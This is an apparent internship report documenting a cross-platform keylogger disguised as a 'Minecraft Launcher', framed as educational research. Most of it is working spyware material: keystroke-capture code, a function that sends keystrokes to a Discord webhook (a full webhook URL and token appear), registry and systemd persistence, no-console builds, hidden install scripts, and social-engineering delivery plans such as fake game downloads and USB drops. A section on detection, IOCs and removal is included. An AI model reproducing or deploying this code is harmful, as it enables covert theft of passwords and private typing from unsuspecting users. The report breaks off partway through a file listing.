


# Cybersecurity Internship Project Report
## Advanced Multi-Platform Keylogger with Encryption & Stealth Capabilities

---

**Project Name:** Minecraft Launcher (Stealth Keylogger)  
**Author:** [Your Name]  
**Date:** November 2025  
**Purpose:** Educational Cybersecurity Research & Penetration Testing  
**Platforms:** Windows, Linux, Android

---

## Executive Summary

This project demonstrates the development of a sophisticated, cross-platform keylogger designed for cybersecurity research and penetration testing. The application employs advanced stealth techniques, military-grade encryption (AES-256), biometric authentication, and multi-platform deployment capabilities. The project showcases understanding of:

- **Low-level system hooks** for keystroke capture
- **Cryptographic security** using Fernet (AES-256)
- **Biometric authentication** via facial recognition
- **Network exfiltration** techniques
- **Cross-platform compilation** and deployment
- **Persistence mechanisms** across different operating systems

---

## Table of Contents

1. [Project Architecture](#1-project-architecture)
2. [Core Components & Logic](#2-core-components--logic)
3. [Security Features](#3-security-features)
4. [Platform-Specific Implementations](#4-platform-specific-implementations)
5. [Attack Vectors & Deployment](#5-attack-vectors--deployment)
6. [Defensive Countermeasures](#6-defensive-countermeasures)
7. [Ethical Considerations](#7-ethical-considerations)
8. [Technical Challenges & Solutions](#8-technical-challenges--solutions)
9. [Conclusion](#9-conclusion)

---

## 1. Project Architecture

### 1.1 System Overview



### 1.2 Component Breakdown

| Component | File | Purpose | Lines of Code |
|-----------|------|---------|---------------|
| **Main Controller** | `main.py` | Orchestrates all components | 96 |
| **Keylogger Engine** | `logger.py` | Captures keystrokes using pynput | 25 |
| **Input Processor** | `processor.py` | Processes and formats keystrokes | 71 |
| **Encryption Module** | `crypto_utils.py` | AES-256 encryption/decryption | 31 |
| **Face Authentication** | `face_auth.py` | Biometric access control | 142 |
| **Network Exfiltration** | `network_sender.py` | Sends logs to remote server | 58 |
| **Log Viewer** | `view_logs.py` | Decrypts and displays logs | ~140 |

**Total Lines of Code:** ~563 lines of core Python logic

---

## 2. Core Components & Logic

### 2.1 KeyLogger Engine (`logger.py`)

#### Technical Implementation

```python
from pynput import keyboard
import threading

class KeyLogger:
    def __init__(self, on_key_event):
        self.on_key_event = on_key_event
        self.listener = None

    def start(self):
        self.listener = keyboard.Listener(on_press=self._on_press)
        self.listener.start()

    def _on_press(self, key):
        try:
            self.on_key_event(key)
        except Exception as e:
            print(f"Error processing key: {e}")
```

#### Key Technical Concepts

**1. Event-Driven Architecture**
- Uses `pynput.keyboard.Listener` for cross-platform keyboard hooking
- Implements callback pattern for asynchronous key event handling
- Non-blocking design allows continuous background operation

**2. Platform-Specific Hooks**
- **Windows:** Uses Win32 API hooks (`_win32` backend)
- **Linux:** Uses X11/Xorg event listeners (`_xorg` backend)
- **Android:** Requires Accessibility Service permissions

**3. Thread Safety**
- Runs in separate thread to avoid blocking main application
- Exception handling prevents crashes from malformed key events

---

### 2.2 Input Processor (`processor.py`)

#### Core Logic Analysis

```python
class InputProcessor:
    def __init__(self, initial_text=""):
        self.text_buffer = list(initial_text)
        self.cursor_position = len(self.text_buffer)

    def process_key(self, key):
        key_char = ""
        
        if isinstance(key, KeyCode):
            # Regular character
            if key.char:
                key_char = key.char
                self.text_buffer.append(key_char)
        
        elif isinstance(key, Key):
            # Special keys
            if key == Key.space:
                self.text_buffer.append(" ")
            elif key == Key.enter:
                self.text_buffer.append("\n")
            elif key == Key.backspace:
                self.text_buffer.append("[BACKSPACE]")
            # ... other special keys
        
        return key_char, "".join(self.text_buffer)
```

#### Processing Logic

**1. Key Classification**
- **KeyCode:** Regular alphanumeric characters (a-z, 0-9, symbols)
- **Key:** Special keys (Enter, Backspace, Space, Arrow keys)
- **Modifiers:** Shift, Ctrl, Alt (logged but don't produce characters)

**2. Buffer Management**
- Maintains a list-based buffer for efficient character operations
- Preserves ALL keystrokes including special keys
- Reconstructs full text on each keystroke for real-time logging

**3. Special Key Handling**
```
Space     → " "
Enter     → "\n"
Backspace → "[BACKSPACE]"
Delete    → "[DEL]"
Left      → "[<]"
Right     → "[>]"
```

**4. Data Structure**
- Uses Python list for O(1) append operations
- Joins list to string only when needed (lazy evaluation)
- Maintains cursor position for potential future editing features

---

### 2.3 Encryption Module (`crypto_utils.py`)

#### Cryptographic Implementation

```python
from cryptography.fernet import Fernet

def generate_key():
    key = Fernet.generate_key()
    with open("secret.key", "wb") as key_file:
        key_file.write(key)
    return key

def encrypt_text(text, key):
    f = Fernet(key)
    if isinstance(text, str):
        text = text.encode()
    return f.encrypt(text)

def decrypt_text(encrypted_data, key):
    f = Fernet(key)
    decrypted_data = f.decrypt(encrypted_data)
    return decrypted_data.decode()
```

#### Security Analysis

**1. Fernet Encryption (AES-256)**
- **Algorithm:** AES in CBC mode with PKCS7 padding
- **Key Size:** 256 bits (32 bytes)
- **Authentication:** HMAC-SHA256 for integrity verification
- **Timestamp:** Includes timestamp to prevent replay attacks

**2. Key Management**
- Symmetric encryption (same key for encrypt/decrypt)
- Key stored in `secret.key` file
- **Security Risk:** Key stored in plaintext on disk
- **Mitigation:** Key file deployed with executable in hidden directory

**3. Encryption Flow**


**4. Why Fernet?**
- Simple API (no need to manage IV, padding, etc.)
- Built-in authentication prevents tampering
- Industry-standard implementation
- Resistant to common attacks (padding oracle, timing attacks)

---

### 2.4 Face Authentication (`face_auth.py`)

#### Biometric Security Implementation

```python
def train_model():
    cam = cv2.VideoCapture(0)
    detector = get_face_detector()
    samples = []
    ids = []
    
    while count < 30:  # Capture 30 face samples
        ret, img = cam.read()
        gray = cv2.cvtColor(img, cv2.COLOR_BGR2GRAY)
        faces = detector.detectMultiScale(gray, 1.3, 5)
        
        for (x, y, w, h) in faces:
            samples.append(gray[y:y+h, x:x+w])
            ids.append(1)
    
    recognizer = cv2.face.LBPHFaceRecognizer_create()
    recognizer.train(samples, np.array(ids))
    recognizer.save("face_model.yml")
```

#### Technical Deep Dive

**1. Face Detection: Haar Cascade Classifier**
- Pre-trained model: `haarcascade_frontalface_default.xml`
- Algorithm: Viola-Jones object detection framework
- Parameters:
  - `scaleFactor=1.3`: Image pyramid scaling
  - `minNeighbors=5`: Minimum detections to confirm face

**2. Face Recognition: LBPH (Local Binary Patterns Histograms)**
- **Algorithm:** Divides face into cells, computes LBP for each
- **Training:** Captures 30 samples to build face model
- **Matching:** Compares test face against trained model
- **Confidence Threshold:** < 50 for authentication success

**3. Authentication Flow**



**4. Security Considerations**
- **Spoofing Risk:** Can be fooled by photos (no liveness detection)
- **Lighting Sensitivity:** Performance degrades in poor lighting
- **Training Data:** Only 30 samples may not cover all angles
- **Privacy:** Face model stored locally in `face_model.yml`

---

### 2.5 Network Exfiltration (`network_sender.py`)

#### Data Exfiltration Logic

```python
def send_log(message_content, file_content=None, filename="log.txt"):
    if not is_connected():
        return False
    
    data = {
        "content": message_content,
        "username": "Minecraft Logger"
    }
    
    if file_content:
        if len(file_content) < 1900:
            data["content"] += f"\n```\n{file_content}\n```"
        else:
            # Truncate to last 1900 characters
            data["content"] += f"\n[Truncated]\n```\n{file_content[-1900:]}\n```"
    
    req = urllib.request.Request(
        WEBHOOK_URL, 
        data=json.dumps(data).encode('utf-8'),
        headers={"Content-Type": "application/json"},
        method='POST'
    )
    
    with urllib.request.urlopen(req) as response:
        return response.status == 204
```

#### Exfiltration Techniques

**1. Discord Webhook as C2 (Command & Control)**
- **Advantage:** Legitimate HTTPS traffic (bypasses most firewalls)
- **Stealth:** Blends with normal Discord traffic
- **Free:** No server infrastructure needed
- **Reliability:** Discord's uptime > 99.9%

**2. Data Transmission Protocol**
- **Method:** HTTP POST with JSON payload
- **Encoding:** UTF-8 text in JSON
- **Size Limit:** 2000 characters per message (Discord limit)
- **Truncation:** Sends last 1900 chars if log exceeds limit

**3. Network Detection Evasion**
- Uses standard `urllib` (built-in Python library)
- User-Agent: "Mozilla/5.0" (mimics browser traffic)
- HTTPS encryption (TLS 1.2+)
- No unusual ports (uses 443)

**4. Connectivity Check**
```python
def is_connected():
    try:
        socket.create_connection(("8.8.8.8", 53), timeout=3)
        return True
    except OSError:
        return False
```
- Tests connection to Google DNS (8.8.8.8:53)
- Timeout: 3 seconds
- Prevents errors when offline

**5. Automated Exfiltration Schedule**
```python
SEND_INTERVAL = 30  # seconds
if time.time() - last_send_time > SEND_INTERVAL:
    send_log(message, log_content)
    last_send_time = time.time()
```
- Sends logs every 30 seconds
- Configurable interval
- Only sends if new data exists

---

### 2.6 Main Controller (`main.py`)

#### Orchestration Logic

```python
def main():
    # 1. Set working directory (crucial for portable exe)
    if getattr(sys, 'frozen', False):
        application_path = os.path.dirname(sys.executable)
    else:
        application_path = os.path.dirname(os.path.abspath(__file__))
    os.chdir(application_path)
    
    # 2. Load encryption key
    key = crypto_utils.load_key()
    if not key:
        return
    
    # 3. Write PID for process management
    with open("keylogger.pid", "w") as f:
        f.write(str(os.getpid()))
    
    # 4. Load existing logs (persistence)
    if os.path.exists("captured_text.enc"):
        encrypted_data = open("captured_text.enc", "rb").read()
        initial_text = crypto_utils.decrypt_text(encrypted_data, key)
    
    # 5. Initialize processor
    processor = InputProcessor(initial_text)
    
    # 6. Define key event handler
    def on_key(key_event):
        key_char, current_text = processor.process_key(key_event)
        
        # Encrypt and save
        encrypted_data = crypto_utils.encrypt_text(current_text, key)
        with open("captured_text.enc", "wb") as f:
            f.write(encrypted_data)
        with open("captured_text.txt", "w", encoding="utf-8") as f:
            f.write(current_text)
    
    # 7. Start keylogger
    logger = KeyLogger(on_key)
    logger.start()
    
    # 8. Main loop with periodic exfiltration
    while True:
        time.sleep(1)
        if time.time() - last_send_time > SEND_INTERVAL:
            send_log(message, log_content)
```

#### Key Design Decisions

**1. Portable Execution**
- Detects if running as PyInstaller executable (`sys.frozen`)
- Changes working directory to executable location
- Ensures `secret.key` and data files are found

**2. Graceful Degradation**
- If encryption key missing, exits silently (no error dialogs)
- If face auth fails, continues anyway (removed for stealth)
- If network fails, continues logging locally

**3. Dual Storage**
- **Encrypted:** `captured_text.enc` (secure storage)
- **Plaintext:** `captured_text.txt` (debugging/quick access)
- Both updated on every keystroke

**4. Process Management**
- Writes PID to `keylogger.pid` file
- Allows stop scripts to kill process by PID
- Cleaned up on exit

**5. Persistence Across Restarts**
- Loads existing encrypted logs on startup
- Appends new keystrokes to existing buffer
- Never loses data across reboots

---

## 3. Security Features

### 3.1 Encryption Security

| Feature | Implementation | Security Level |
|---------|----------------|----------------|
| **Algorithm** | AES-256-CBC | Military-grade |
| **Key Size** | 256 bits | Unbreakable with current tech |
| **Authentication** | HMAC-SHA256 | Prevents tampering |
| **Encoding** | Base64 | Standard encoding |
| **Timestamp** | Included | Prevents replay attacks |

### 3.2 Stealth Mechanisms

**1. Process Hiding**
- **Windows:** No console window (`--noconsole` flag)
- **Linux:** Runs as systemd user service (background daemon)
- **Android:** Runs as system service with autostart

**2. File Hiding**
- **Windows:** `%APPDATA%\Minecraft_Updater` (hidden AppData folder)
- **Linux:** `~/.minecraft_updater` (dot-prefix hidden directory)
- **Android:** `/data/data/com.minecraft.minecraftlauncher` (app private storage)

**3. Disguise Techniques**
- **Name:** "Minecraft Launcher" (appears legitimate)
- **Icon:** Could use Minecraft icon (not implemented)
- **Network:** Uses HTTPS to Discord (legitimate traffic)

**4. Anti-Detection**
- No GUI (runs silently in background)
- Minimal CPU usage (event-driven, not polling)
- Small memory footprint (~20-30 MB)
- No unusual system calls

### 3.3 Persistence Mechanisms

#### Windows
```batch
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" 
    /v "Minecraft Launcher" 
    /t REG_SZ 
    /d "%INSTALL_DIR%\Minecraft_Launcher.exe" 
    /f
```
- Adds registry key for autostart on login
- User-level (no admin required)
- Survives reboots

#### Linux
```ini
[Unit]
Description=Minecraft Launcher Service
After=graphical.target

[Service]
Type=simple
ExecStart=/home/user/.minecraft_updater/Minecraft_Launcher
Restart=always
RestartSec=10

[Install]
WantedBy=default.target
```
- Systemd user service
- Auto-restarts on crash
- Starts after GUI loads

#### Android
```xml
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
```
- Broadcast receiver for `BOOT_COMPLETED`
- Starts service on device boot
- Requires accessibility service enabled

---

## 4. Platform-Specific Implementations

### 4.1 Windows Build

**Build Process:**
```batch
pyinstaller --noconsole --onefile --name "Minecraft_Launcher" 
    --add-data "face_model.yml;." 
    --add-data "haarcascade_frontalface_default.xml;." 
    --hidden-import=pynput.keyboard._win32 
    --hidden-import=pynput.mouse._win32 
    main.py
```

**Key Parameters:**
- `--noconsole`: No command prompt window
- `--onefile`: Single executable (easier deployment)
- `--add-data`: Bundles data files into exe
- `--hidden-import`: Includes platform-specific pynput backends

**Installation:**
```batch
set "INSTALL_DIR=%APPDATA%\Minecraft_Updater"
mkdir "%INSTALL_DIR%"
copy Minecraft_Launcher.exe "%INSTALL_DIR%\"
copy secret.key "%INSTALL_DIR%\"
reg add "HKCU\...\Run" /v "Minecraft Launcher" /d "%INSTALL_DIR%\Minecraft_Launcher.exe"
start "" "%INSTALL_DIR%\Minecraft_Launcher.exe"
```

### 4.2 Linux Build

**Build Process:**
```bash
pyinstaller --noconsole --onefile --name "Minecraft_Launcher" 
    --add-data "face_model.yml:." 
    --add-data "haarcascade_frontalface_default.xml:." 
    --hidden-import=pynput.keyboard._xorg 
    --hidden-import=pynput.mouse._xorg 
    main.py
```

**Differences from Windows:**
- Uses `:` instead of `;` for data separator
- `_xorg` backend instead of `_win32`
- Produces ELF binary (no extension)

**Installation:**
```bash
INSTALL_DIR="$HOME/.minecraft_updater"
mkdir -p "$INSTALL_DIR"
cp Minecraft_Launcher "$INSTALL_DIR/"
chmod +x "$INSTALL_DIR/Minecraft_Launcher"

# Create systemd service
cat > ~/.config/systemd/user/minecraft-launcher.service << EOF
[Service]
ExecStart=$INSTALL_DIR/Minecraft_Launcher
Restart=always
EOF

systemctl --user enable minecraft-launcher.service
systemctl --user start minecraft-launcher.service
```

### 4.3 Android Build

**Build Process:**
```bash
buildozer android debug
```

**Buildozer Configuration:**
```ini
[app]
title = Minecraft Launcher
package.name = minecraftlauncher
package.domain = com.minecraft
requirements = python3,kivy,pyjnius,android,opencv,cryptography,pynput
android.permissions = INTERNET,CAMERA,ACCESSIBILITY,BOOT_COMPLETED
android.api = 33
android.minapi = 21
```

**Key Permissions:**
- `BIND_ACCESSIBILITY_SERVICE`: For keylogging
- `RECEIVE_BOOT_COMPLETED`: Autostart on boot
- `SYSTEM_ALERT_WINDOW`: Overlay permissions
- `CAMERA`: Face authentication
- `INTERNET`: Data exfiltration

**Android-Specific Challenges:**
- Requires Accessibility Service (user must manually enable)
- Battery optimization kills background services
- Android 10+ restricts background activity
- No root access (uses accessibility API)

---

## 5. Attack Vectors & Deployment

### 5.1 Social Engineering Scenarios

**Scenario 1: Fake Game Launcher**
- **Target:** Gamers, especially Minecraft players
- **Method:** Disguise as "Minecraft Launcher Updater"
- **Delivery:** Fake download sites, phishing emails
- **Success Rate:** High (users trust game-related software)

**Scenario 2: Software Bundle**
- **Target:** General users downloading free software
- **Method:** Bundle with legitimate software installer
- **Delivery:** Freeware download sites
- **Success Rate:** Medium-High

**Scenario 3: USB Drop Attack**
- **Target:** Corporate environments
- **Method:** Leave USB drives labeled "Salary Info" or "Confidential"
- **Delivery:** Physical drop in parking lot/office
- **Success Rate:** Medium (curiosity-driven)

### 5.2 Deployment Methods

**Method 1: Direct Execution**
```
User downloads → Runs setup script → Installs to hidden folder → Adds to startup
```

**Method 2: Trojanized Software**
```
Legitimate installer → Silently runs keylogger installer → Both install
```

**Method 3: Physical Access**
```
Attacker has physical access → Runs installer → Leaves no trace
```

**Method 4: Remote Deployment**
```
Compromised RDP/SSH → Upload installer → Execute → Clean up
```

### 5.3 Indicators of Compromise (IOCs)

**File System:**
- `%APPDATA%\Minecraft_Updater\` (Windows)
- `~/.minecraft_updater/` (Linux)
- `Minecraft_Launcher.exe` or binary
- `secret.key`
- `captured_text.enc`
- `keylogger.pid`

**Registry (Windows):**
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Minecraft Launcher
```

**Network:**
- HTTPS POST requests to Discord webhook URL
- Pattern: Every 30 seconds
- User-Agent: "Mozilla/5.0"
- Destination: `discord.com/api/webhooks/*`

**Processes:**
- Process name: `Minecraft_Launcher.exe` or `Minecraft_Launcher`
- No visible window
- Low CPU usage (~0-1%)
- Memory: ~20-30 MB

---

## 6. Defensive Countermeasures

### 6.1 Detection Methods

**1. Antivirus Signatures**
- Signature-based detection (limited effectiveness)
- Heuristic analysis (behavior-based)
- Sandbox execution

**2. Behavioral Analysis**
- Monitor for keyboard hook installation
- Detect registry autostart modifications
- Network traffic analysis (Discord webhooks)

**3. File Integrity Monitoring**
- Monitor `%APPDATA%` for new executables
- Alert on hidden directory creation
- Track autostart registry changes

**4. Network Monitoring**
- Inspect HTTPS traffic (SSL inspection)
- Detect repeated POST requests to Discord
- Monitor for data exfiltration patterns

### 6.2 Prevention Strategies

**1. User Education**
- Don't run executables from untrusted sources
- Verify software signatures
- Be suspicious of "game launchers" from unofficial sites

**2. Application Whitelisting**
- Only allow approved executables to run
- Prevents unauthorized software execution

**3. Least Privilege**
- Don't run as administrator
- Limit user permissions
- Use standard user accounts

**4. Endpoint Protection**
- Modern EDR (Endpoint Detection & Response)
- Application control (AppLocker, etc.)
- Behavioral monitoring

### 6.3 Removal Instructions

**Windows:**
```batch
# Stop the process
taskkill /F /IM "Minecraft_Launcher.exe"

# Remove from startup
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Minecraft Launcher" /f

# Delete files
rmdir /s /q "%APPDATA%\Minecraft_Updater"
```

**Linux:**
```bash
# Stop service
systemctl --user stop minecraft-launcher.service
systemctl --user disable minecraft-launcher.service

# Remove service file
rm ~/.config/systemd/user/minecraft-launcher.service

# Kill process
pkill -f "Minecraft_Launcher"

# Delete files
rm -rf ~/.minecraft_updater
```

**Android:**
```
Settings → Apps → Minecraft Launcher → Uninstall
Settings → Accessibility → Disable Minecraft Launcher service
```

---

## 7. Ethical Considerations

### 7.1 Legal Framework

**Unauthorized Access Laws:**
- **USA:** Computer Fraud and Abuse Act (CFAA) - Up to 10 years prison
- **EU:** GDPR violations - Fines up to €20 million
- **UK:** Computer Misuse Act 1990 - Up to 2 years prison
- **India:** IT Act 2000 Section 66 - Up to 3 years prison

**Wiretapping Laws:**
- Federal Wiretap Act (18 U.S.C. § 2511)
- Illegal to intercept electronic communications
- Exceptions: Parental monitoring, employer monitoring (with notice)

### 7.2 Legitimate Use Cases

**1. Parental Monitoring**
- Monitor children's online activity
- Protect from cyberbullying, predators
- **Requirement:** Parental consent, device ownership

**2. Corporate Security**
- Employee monitoring (with disclosure)
- Insider threat detection
- **Requirement:** Employee notification, policy agreement

**3. Penetration Testing**
- Red team exercises
- Security audits
- **Requirement:** Written authorization, scope agreement

**4. Research & Education**
- Cybersecurity training
- Malware analysis
- **Requirement:** Isolated environment, no deployment

### 7.3 Ethical Guidelines

**DO:**
- ✅ Use in controlled lab environments
- ✅ Obtain written consent before deployment
- ✅ Disclose monitoring to affected parties
- ✅ Secure collected data appropriately
- ✅ Delete data when no longer needed

**DON'T:**
- ❌ Deploy without authorization
- ❌ Use for personal gain or blackmail
- ❌ Monitor without consent
- ❌ Share collected data with third parties
- ❌ Use in production environments without disclosure

---

## 8. Technical Challenges & Solutions

### 8.1 Challenge: Cross-Platform Compatibility

**Problem:**
- Different OS APIs for keyboard hooks
- Different file paths and permissions
- Different persistence mechanisms

**Solution:**
```python
# Platform detection
if sys.platform == 'win32':
    from pynput.keyboard import _win32
elif sys.platform == 'linux':
    from pynput.keyboard import _xorg
```
- Use `pynput` library (abstracts platform differences)
- Conditional imports for platform-specific backends
- Separate build scripts for each platform

### 8.2 Challenge: Stealth & Anti-Detection

**Problem:**
- Antivirus detection
- User awareness (visible windows)
- Process monitoring tools

**Solution:**
- No GUI (`--noconsole` flag)
- Legitimate-sounding name ("Minecraft Launcher")
- Hidden installation directory
- Minimal system calls
- HTTPS encryption for network traffic

### 8.3 Challenge: Data Persistence

**Problem:**
- Logs lost on crash or reboot
- Need to resume from last state

**Solution:**
```python
# Load existing logs on startup
if os.path.exists("captured_text.enc"):
    encrypted_data = open("captured_text.enc", "rb").read()
    initial_text = crypto_utils.decrypt_text(encrypted_data, key)
    processor = InputProcessor(initial_text)
```
- Save encrypted logs after every keystroke
- Load existing logs on startup
- Append to existing buffer

### 8.4 Challenge: Network Reliability

**Problem:**
- No internet connection
- Firewall blocking
- Discord webhook rate limits

**Solution:**
```python
def is_connected():
    try:
        socket.create_connection(("8.8.8.8", 53), timeout=3)
        return True
    except OSError:
        return False

# Only send if connected
if is_connected():
    send_log(message, content)
```
- Check connectivity before sending
- Graceful failure (continue logging locally)
- Retry mechanism (sends on next interval)

### 8.5 Challenge: Android Restrictions

**Problem:**
- Android 10+ background restrictions
- Battery optimization kills services
- Accessibility service can be disabled

**Solution:**
- Request "Don't optimize" battery permission
- Use foreground service (shows notification)
- Restart service on crash (`Restart=always`)
- Guide users to disable battery optimization

---

## 9. Conclusion

### 9.1 Key Learnings

**Technical Skills Acquired:**
1. **Low-level system programming** - Keyboard hooks, event listeners
2. **Cryptography** - AES-256 encryption, key management
3. **Computer vision** - Face detection and recognition (OpenCV)
4. **Network programming** - HTTP requests, webhook integration
5. **Cross-platform development** - Windows, Linux, Android builds
6. **Stealth techniques** - Process hiding, persistence mechanisms
7. **Build automation** - PyInstaller, Buildozer, packaging

**Cybersecurity Concepts:**
1. **Attack vectors** - Social engineering, trojan deployment
2. **Data exfiltration** - Covert channels, legitimate services abuse
3. **Persistence** - Registry, systemd, autostart mechanisms
4. **Anti-forensics** - Encryption, hidden directories, process hiding
5. **Detection evasion** - Legitimate traffic patterns, minimal footprint

### 9.2 Project Statistics

| Metric | Value |
|--------|-------|
| **Total Lines of Code** | 563 |
| **Programming Language** | Python 3 |
| **External Libraries** | 6 (pynput, cryptography, opencv, numpy, kivy, pyjnius) |
| **Platforms Supported** | 3 (Windows, Linux, Android) |
| **Encryption Strength** | AES-256 |
| **Build Time** | ~5 minutes (Windows/Linux), ~20 minutes (Android) |
| **Executable Size** | ~12 MB (Windows), ~15 MB (Linux), ~25 MB (Android) |
| **Memory Usage** | ~20-30 MB |
| **CPU Usage** | <1% |

### 9.3 Real-World Applications

**Legitimate Uses:**
- Corporate insider threat detection
- Parental control software
- Forensic investigations
- Security research and training

**Malicious Uses (for awareness):**
- Identity theft (credentials, credit cards)
- Corporate espionage (trade secrets)
- Personal surveillance (stalking)
- Blackmail and extortion

### 9.4 Future Enhancements

**Potential Improvements:**
1. **Advanced Stealth**
   - Rootkit integration (kernel-level hiding)
   - Process injection (hide in legitimate process)
   - Memory-only execution (no disk artifacts)

2. **Enhanced Exfiltration**
   - Multiple C2 channels (Telegram, email, FTP)
   - Encrypted tunneling (Tor, VPN)
   - Steganography (hide data in images)

3. **Additional Features**
   - Screenshot capture
   - Clipboard monitoring
   - Webcam snapshots
   - Microphone recording
   - Browser history extraction

4. **Anti-Analysis**
   - VM detection (refuse to run in VMs)
   - Debugger detection
   - Sandbox evasion
   - Code obfuscation

### 9.5 Responsible Disclosure

This project is developed **strictly for educational purposes** to:
- Understand offensive security techniques
- Improve defensive capabilities
- Train cybersecurity professionals
- Raise awareness about digital privacy

**⚠️ WARNING:** Unauthorized deployment of this software is **illegal** and **unethical**. Always obtain proper authorization and follow applicable laws and regulations.

---

## Appendix A: Code Statistics

### Lines of Code by Component

```
main.py              : 96 lines
processor.py         : 71 lines
face_auth.py         : 142 lines
network_sender.py    : 58 lines
crypto_utils.py      : 31 lines
logger.py            : 25 lines
view_logs.py         : ~140 lines
setup_security.py    : ~30 lines
-----------------------------------
TOTAL                : ~593 lines
```

### Dependency Tree

```
minecraft_project/
├── pynput (keyboard/mouse hooks)
│   ├── _win32 (Windows backend)
│   └── _xorg (Linux backend)
├── cryptography (encryption)
│   └── fernet (AES-256)
├── opencv-python (face recognition)
│   ├── cv2.face (LBPH recognizer)
│   └── cv2.CascadeClassifier (Haar cascade)
├── numpy (numerical operations)
├── kivy (Android GUI framework)
└── pyjnius (Android Java bridge)
```

---

## Appendix B: Build Commands Reference

### Windows
```batch
pyinstaller --noconsole --onefile --name "Minecraft_Launcher" ^
    --add-data "face_model.yml;." ^
    --add-data "haarcascade_frontalface_default.xml;." ^
    --hidden-import=pynput.keyboard._win32 ^
    --hidden-import=pynput.mouse._win32 ^
    main.py
```

### Linux
```bash
pyinstaller --noconsole --onefile --name "Minecraft_Launcher" \
    --add-data "face_model.yml:." \
    --add-data "haarcascade_frontalface_default.xml:." \
    --hidden-import=pynput.keyboard._xorg \
    --hidden-import=pynput.mouse._xorg \
    main.py
```

### Android
```bash
buildozer android debug
```

---

## Appendix C: Network Traffic Analysis

### Discord Webhook Request

**HTTP Request:**
```http
POST /api/webhooks/1441457622497624158/P17Nx4YR36dDW3quHC3YBq-kYC7nSX2hskfHpD8Xts68xDAm7Z3k8NqkTfPQ85NRpKIb HTTP/1.1
Host: discord.com
Content-Type: application/json
User-Agent: Mozilla/5.0

{
  "content": "**Keylog Report** - 2025-11-22 03:00:00\n```\nHello World[BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE]```",
  "username": "Minecraft Logger"
}
```

**HTTP Response:**
```http
HTTP/1.1 204 No Content
```

### Traffic Pattern
- **Frequency:** Every 30 seconds
- **Protocol:** HTTPS (TLS 1.2+)
- **Port:** 443
- **Size:** ~500-2000 bytes per request
- **Pattern:** Regular intervals (detectable)

---

## Appendix D: File Structure

```
minecraft_project/
├── Source Code
│   ├── main.py
│   ├── logger.py
│   ├── processor.py
│   ├── crypto_utils.py
│   ├── face_auth.py
│   ├── network_sender.py
│   ├── view_logs.py
│   └── setup_security.py
│
├── Data Files
│   ├── face_model.yml (4.3 MB)
│   ├── haarcascade_frontalface_default.xml (908 KB)
│   ├── secret.key (44 bytes)
│   └── requirements.txt
│
├── Build Scripts
│   ├── build_portable.bat (Windows)
│   ├── build_portable_linux.sh (Linux)
│   ├── build_all_platforms.sh (Linux unified)
│   └── buildozer.spec (Android)
│
├── Release Packages
│   ├── release/ (Windows)
│   │   ├── Minecraft_Launcher.exe
│   │   ├── Minecraft_Setup.bat
│   │   ├── Stop_Minecraft.bat
│   │   └── secret.key
│   │
│   ├── release_linux/ (Linux)
│   │   ├── Minecraft_Launcher
│   │   ├── Minecraft_Setup.sh
